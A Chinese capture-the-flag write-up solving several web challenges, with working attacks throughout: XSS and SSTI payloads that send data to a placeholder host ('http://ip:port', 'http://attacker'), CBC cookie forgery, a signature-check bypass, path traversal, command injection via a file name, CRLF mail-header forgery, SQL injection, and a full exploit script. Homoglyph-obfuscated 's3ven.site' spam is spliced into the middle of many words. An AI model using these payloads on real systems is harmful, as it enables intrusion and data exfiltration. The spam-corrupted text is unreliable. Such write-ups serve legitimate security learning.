



季军🥉

1. eznote
1.1 javascript 伪协议漏洞
app.post('/report', async (req, res) => {
let { url } = req.body
try {
await visit(url)
res.send('success')
} catch (err) {
console.log(err)
res.send('error')
}
})
async function visit(url) {
let browser = await puppeteer.launch({
headless: HEADLESS,
executablePath: '/usr/bin/chromium',
args: ['--no-sandbox'],
})
let page = await browser.newPage()
await page.goto('http://localhost:3000/')
await page.waitForSelector('#title')
await page.type('#title', 'flag', {delay: 100})
await page.type('#content', FLAG, {delay: 100})
await page.click('#submit', {delay: 100})
await sleep(3)
console.log('visiting %s', url)
await page.goto(url)
await sleep(30)
await browser.close()
}通过构造特定的 javascript 伪协议 url 传入 /report 路由来实现 ꜱ𝟯ⅴｅ𝘯·𝒔𝐢tｅXSS 页面泄露
javascript:fetch('/notes').then(r=>r.text()).then(d=>navigator.sendBeacon('http://ip:port/',d))从中获得 notꜱ𝟯vℯ𝐧․ꜱⅈｔeeId 即可通过 /note/:noteId 路由获得 flag
2. not so web 1
not so ꜱ𝟯𝐯𝘦𝐧.ѕ³𝒗e𝐧∙𝘀ⅈｔ𝐞s𝘪𝐭eweb ，所以是 crypto
2.1 CBC 字节翻转攻击
源码中自定义了 cookie 组件，使用 AES.MODE_CBC 模式处理 co𝘀³v𝘦ｎ．𝘀𝘪𝒕eokie 签名
def validate_cookie(cookie: str) -> bool:
if not cookie:
return False
try:
cookie_encrypted = base64.b64decode(cookie, validate=True)
except binascii.Error:
return False
if len(cookie_encrypted) < 32:
return False
try:
iv, padded = cookie_encrypted[:16], cookie_encrypted[16:]
cipher = AES.new(KEY, AES.MODE_CBC, iv)
cookie_json = cipher.decrypt(padded)
except ValueError:
return False
try:
_ = json.loads(cookie_json)
except Exception:
return False
return True
def parse_cookie(cookie: str) -> Tuple[bool, str]:
if not cookie:
return False, ""
try:
cookie_encrypted = base64.b64decode(cookie, validate=True)
except binascii.Error:
return False, ""
if len(cookie_encrypted) < 32:
return False, ""
try:
iv, padded = cookie_encrypted[:16], cookie_encrypted[16:]
cipher = AES.new(KEY, AES.MODE_CBC, iv)
decrypted = cipher.decrypt(padded)
cookie_json_bytes = unpad(decrypted, 16)
cookie_json = cookie_json_bytes.decode()
except ValueError:
return False, ""
try:
cookie_dict = json.loads(cookie_json)
except Exception:
return False, ""
return True, cookie_dict.get("name")
def generate_cookie(user: APPUser) -> str:
cookie_dict = asdict(user)
cookie_json = json.dumps(cookie_dict)
cookie_json_bytes = cookie_json.encode()
iv = os.urandom(16)
padded = pad(cookie_json_bytes, 16)
cipher = AES.new(KEY, AES.MODE_CBC, iv)
encrypted = cipher.encrypt(padded)
return base64.b64encode(iv + encrypted).decode()CBC 把明文切成固定大小的分组（此处为 AES，每组16 ѕ3ⅴｅ𝒏.ѕｉ𝐭e字节），第一块用 IV 初始向量做异或，后续每块用上一块密文做异或，由于 IV 和明文中需要篡改的位置已知，因此可以使用 CBC 字节翻转攻击
首先注册一个 bdmin 𝘴3𝐯ｅ𝒏•ꜱ𝐢t℮账号，本地测试后可以得知 json 形式：{"name": "bdmin", "password_raw": "123456", "register_time": 1753778885}
已知 jwbcookie 由16位 iv 和16位密文组成，因此对 bdmin 中 b 的位置（第11位）的 iv 𝒔3𝘷ℯ𝒏∙ѕｉte进行 xor b xor a 即可实现字节翻转，篡改明文为 admin：
iv = jwbcookie[:16]
newIV = iv[:10] + iv[10] ^ ord('b') ^ ord('a') + iv[11:]2.2 SSTI 模板注入漏洞
/home 路由中 payload 字段可控，s3ⅴe𝘯•sitｅ可以进行模板注入带出 flag
{{g.pop.__globals__.__builtins__['__import__']('os').popen('cat flag.txt').read()}}或者使用 flask 的方法 lipsum：
{{lipsum.__globals__['os'].popen('cat flag.txt').read()}}3. not so web 2
听说出题人本来想出成 𝘴⑶𝐯ℯ𝐧∙𝘀𝘪𝐭ｅpwn 的，但𝘀3𝒗𝐞𝒏·ѕ𝐢te是鉴权写错了（）
def validate_cookie(cookie_b64: str) -> bool:
valid, _ = parse_cookie(cookie_b64)
return valid
def parse_cookie(cookie_b64: str) -> Tuple[bool, str]:
if not cookie_b64:
return False, ""
try:
cookie = base64.b64decode(cookie_b64, validate=True).decode()
except binascii.Error:
return False, ""
try:
msg_str, sig_hex = cookie.split("&")
except Exception:
return False, ""
msg_dict = json.loads(msg_str)
msg_str_bytes = msg_str.encode()
msg_hash = SHA256.new(msg_str_bytes)
sig = bytes.fromhex(sig_hex)
try:
PKCS1_v1_5.new(public_key).verify(msg_hash, sig)
valid = True
except (ValueError, TypeError):
valid = False
return valid, msg_dict.get("user_name")
def generate_cookie(user: APPUser) -> str:
msg_dict = {"user_name": user.name, "login_time": int(time.time())}
msg_str = json.dumps(msg_dict)
msg_str_bytes = msg_str.encode()
msg_hash = SHA256.new(msg_str_bytes)
sig = PKCS1_v1_5.new(private_key).sign(msg_hash)
sig_hex = sig.hex()
packed = msg_str + "&" + sig_hex
return base64.b64encode(packed.encode()).decode()3.1 鉴权绕过
parse_cook𝘴3vｅ𝒏•ѕiｔ𝐞ie 中只需要让 PKCS1_v1_5.new(public_key).verify(msg_hash, sig) 不报错即可，而不需要其返回 True，因此直接注册一个账号后将 payload 中的 user_name 改为 admin 即可
try:
PKCS1_v1_5.new(public_key).verify(msg_hash, sig)
valid = True
except (ValueError, TypeError):
valid = False
return valid, msg_dict.get("user_name")本部分预期解为使用 CVE-2014-0160 OpenSSL Heartbleed 漏洞泄露管理员密码登录
题目环境为 https + 𝘀⑶𝘷𝐞𝘯•sｉt𝐞nginx/1𝒔3𝐯𝐞𝐧．𝐬ⅈ𝒕ｅ.11.13
3.2 SSTI 模板注入
过滤了如下字符：'_#&;，直接使用 fenjing 构造 𝘀𝟯vｅn．𝘴𝐢𝒕℮Payload：
from fenjing import exec_cmd_payload, config_payload
import logging
logging.basicConfig(level = logging.INFO)
def waf(s: str): # 如果字符串s可以通过waf则返回True, 否则返回False
blacklist = [
"'", "_", "#", "&", ";"
]
return all(word not in s for word in blacklist)
if __name__ == "__main__":
shell_payload, _ = exec_cmd_payload(waf, "cat flag.txt")
# config_payload = config_payload(waf)
print(f"{shell_payload=}")
# print(f"{config_payload=}")得到如下 Pa𝒔⑶𝒗ℯ𝘯․𝘴i𝐭eyload：
{{(cycler.next["%c"%95+"%c"%95+"globals"+"%c"%95+"%c"%95].os.popen("cat flag.txt")).read()}}或者，由于这里过滤只检查了 payload 参数的内容，ѕ³𝘷ｅn·𝐬ite可以将被过滤的内容放入其他参数中进行注入
{{lipsum|attr(request.values.a)|attr(request.values.b)(request.values.c)|attr(request.values.d)(request.values.e)|attr(request.values.f)()}}&a=__globals__&b=__getitem__&c=os&d=popen&e=cat%20flag.txt&f=read将其传入 /home 路由中的 payload 𝐬⑶vｅn．ꜱiｔｅ字段即可获得 flag
4. ACTF Upload
4.1 任意文件读取漏洞
打开后是一个登录页面：

先使用除了admin之外的账号登录，发现可以上传文件：

上传文件后跳转到了 /upload?file_path=xxxx，此处存在路径穿越漏洞，𝒔³𝐯ｅ𝘯∙𝘀itｅ可以实现任意文件读取
先读取 /proc/self/cmdline，再读源码，获ѕ⑶𝒗𝘦ｎ∙ꜱⅈ𝐭℮得源码如下：
import uuid
import os
import hashlib
import base64
from flask import Flask, request, redirect, url_for, flash, session
app = Flask(__name__)
app.secret_key = os.getenv('SECRET_KEY')
@app.route('/')
def index():
if session.get('username'):
return redirect(url_for('upload'))
else:
return redirect(url_for('login'))
@app.route('/login', methods=['POST', 'GET'])
def login():
if request.method == 'POST':
username = request.form['username']
password = request.form['password']
if username == 'admin':
if hashlib.sha256(password.encode()).hexdigest() == '32783cef30bc23d9549623aa48aa8556346d78bd3ca604f277d63d6e573e8ce0':
session['username'] = username
return redirect(url_for('index'))
else:
flash('Invalid password')
else:
session['username'] = username
return redirect(url_for('index'))
else:
return '''
<h1>Login</h1>
<h2>No need to register.</h2>
<form action="/login" method="post">
<label for="username">Username:</label>
<input type="text" id="username" name="username" required>
<br>
<label for="password">Password:</label>
<input type="password" id="password" name="password" required>
<br>
<input type="submit" value="Login">
</form>
'''
@app.route('/upload', methods=['POST', 'GET'])
def upload():
if not session.get('username'):
return redirect(url_for('login'))
if request.method == 'POST':
f = request.files['file']
file_path = str(uuid.uuid4()) + '_' + f.filename
f.save('./uploads/' + file_path)
return redirect(f'/upload?file_path={file_path}')
else:
if not request.args.get('file_path'):
return '''
<h1>Upload Image</h1>
<form action="/upload" method="post" enctype="multipart/form-data">
<input type="file" name="file">
<input type="submit" value="Upload">
</form>
'''
else:
file_path = './uploads/' + request.args.get('file_path')
if session.get('username') != 'admin':
with open(file_path, 'rb') as f:
content = f.read()
b64 = base64.b64encode(content)
return f'<img src="data:image/png;base64,{b64.decode()}" alt="Uploaded Image">'
else:
os.system(f'base64 {file_path} > /tmp/{file_path}.b64')
# with open(f'/tmp/{file_path}.b64', 'r') as f:
# return f'<img src="data:image/png;base64,{f.read()}" alt="Uploaded Image">'
return 'Sorry, but you are not allowed to view this image.'
if __name__ == '__main__':
app.run(host='0.0.0.0', port=5000)4.2 flask session 伪造
通过任意文件读取漏洞读取 /proc/self/environ 获得 flask session key，
并使用该 key 伪造 admin ѕ³𝘷𝘦n.ꜱ𝐢𝐭𝘦的 session 获得 admin 权限
由于此处的 admin password 的 sha256 可以通过 cmd5 解出为 backdoor，因此也可以直接使用 𝒔𝟯v𝘦𝐧𝐬⑶𝐯e𝒏•𝘴ｉｔ𝐞∙𝒔ｉ𝒕eadmin 和 backdoor 登录获得 admin 权限
4.3 命令注入
base64 {file_path} > /tmp/{file_path}.b64由于 file_path 可控，𝒔⑶vℯ𝐧•𝒔ⅈ𝘵ｅ此处存在命令注入漏洞，构造 file_path = ; ls / > /tmp/test #，再使用任意文件读取漏洞读出 /tmp/test，获得 flag 在 Fl4g_is_H3r3 ，设置 file_path = ../../../../Fl4g_is_H3r3，即可读出 flag
5. Excellent-Site
5.1 邮件伪造
题目仅提供了发件人为 ignored@ezmail.org ，而 admin 处只接收发件人为 admin@ezmail.org 的邮件，因此需要通过 CRLF 来注入 FROM 发件人部分 伪造发件人为 admin@ezmail.org：
forged_url = f"{malicious_news_url}\r\nFrom: admin@ezmail.org"
data = {
"url": forged_url,
"content": "just_testing",
}5.2 SSTI 模板注入
@app.route("/admin", methods=["GET"])
def admin():
ip = request.remote_addr
if ip != "127.0.0.1":
return "Forbidden IP"
subject = get_subjects("admin", "p@ssword")
if subject.startswith("http://ezmail.org"):
page_content = fetch_page_content(subject)
return render_template_string(f"""
<h2>Newest Advice(from myself)</h2>
<div>{page_content}</div>
""")
return ""此处直接使用 page_content 作为模板的一部分进行渲染，存在 SSTI 模板注入漏洞，而此处的 page_content 内容来自 admin 的 email 收件箱中发件人为 admin@ezmail.org 的 email Subject
可以构造 SSTI 𝐬3𝘷𝐞𝐧•sｉ𝘵𝐞Payload 如下来带出 flag
{{ cycler.__init__.__globals__.get("__builtins__").get("__import__")("urllib.request", None, None, ("urlopen",)).urlopen("http://ip:port?d=" + cycler.__init__.__globals__.get("__builtins__").get("__import__")("base64").b64encode(cycler.__init__.__globals__.get("__builtins__").get("__import__")("builtins").open("/flag","rb").read()).decode()) }}5.3 SQL 注入漏洞
@app.route("/news", methods=["GET"])
def news():
news_id = request.args.get("id")
if not news_id:
news_id = 1
conn = sqlite3.connect("news.db")
cursor = conn.cursor()
cursor.execute(f"SELECT title FROM news WHERE id = {news_id}")
result = cursor.fetchone()
conn.close()
if not result:
return "Page not found.", 404
return result[0]/news 路由处的 news_id 可控，可以构造 UNION SELECT s𝟯𝐯𝘦ｎ．ꜱ𝐢𝘵℮的 SQL 注入 Payload 来控制回显内容
因此将上述 SSTI Payload 放入 𝒔³𝘷ｅn·ѕ𝘪t℮SQL 注入 Payload 中：
http://ezmail.org:3000/news?id=-1%20UNION%20SELECT%20'%7B%7B%20cycler.__init__.__globals__.get%28%22__builtins__%22%29.get%28%22__import__%22%29%28%22urllib.request%22%2C%20None%2C%20None%2C%20%28%22urlopen%22%2C%29%29.urlopen%28%22http%3A%2F%2Fip%3Aport%3Fd%3D%22%20%2B%20cycler.__init__.__globals__.get%28%22__builtins__%22%29.get%28%22__import__%22%29%28%22base64%22%29.b64encode%28cycler.__init__.__globals__.get%28%22__builtins__%22%29.get%28%22__import__%22%29%28%22builtins%22%29.open%28%22%2Fflag%22%2C%22rb%22%29.read%28%29%29.decode%28%29%29%20%7D%7D'最后使用 /bot 路由触发获得 flag
Exp 如下：
import sys
import urllib.parse as up
from flask import *
import requests
app = Flask(__name__)
HOST = "http://ip:port"
HOST_SELF = "http://ezmail.org:3000"
def make_session(proxy: str | None = None) -> requests.Session:
sess = requests.Session()
return sess
def craft_jinja_payload() -> str:
imp = 'cycler.__init__.__globals__.get("__builtins__").get("__import__")'
jinja = (
"{{ "
f"{imp}(\"urllib.request\", None, None, (\"urlopen\",)).urlopen("
f"\"http://attacker?d=\" + "
f"{imp}(\"base64\").b64encode("
f"{imp}(\"builtins\").open(\"/flag\",\"rb\").read()"
").decode()"
") }}"
)
return jinja
def sql_escape(s: str) -> str:
return s.replace("'", "''")
def make_malicious_news_url(host: str) -> str:
raw_jinja = craft_jinja_payload()
safe_for_sql = sql_escape(raw_jinja)
enc = up.quote(safe_for_sql, safe="")
sqli = f"-1 UNION SELECT '{enc}'"
sqli = sqli.replace(" ", "%20")
return f"{host}/news?id={sqli}"
def send_report(sess: requests.Session, host: str, malicious_news_url: str) -> None:
forged_url = f"{malicious_news_url}\r\nFrom: admin@ezmail.org"
print(forged_url)
data = {
"url": forged_url,
"content": "just_testing",
}
r = sess.post(f"{host}/report", data=data, timeout=10)
if r.ok:
print("[+] 报告已提交")
else:
print("[-] /report 返回异常", r.status_code)
sys.exit(1)
def trigger_bot(sess: requests.Session, host: str) -> None:
r = sess.get(f"{host}/bot", timeout=10)
if r.ok:
print("[+] /bot 已触发，后台应已执行恶意模板")
else:
print("[-] 触发 /bot 失败", r.status_code)
sys.exit(1)
def main():
sess = make_session()
print("[*] 1) 构造恶意 /news 页面")
malicious_news_url = make_malicious_news_url(HOST_SELF)
malicious_news_url_test = make_malicious_news_url(HOST)
print(" payload URL:", malicious_news_url)
content = requests.get(malicious_news_url_test).text
print(content)
print("[*] 2) 向 /report 投递伪造邮件")
send_report(sess, HOST, malicious_news_url)
print("[*] 3) 访问 /bot 触发后台 SSRF → RCE")
trigger_bot(sess, HOST)
if __name__ == "__main__":
main()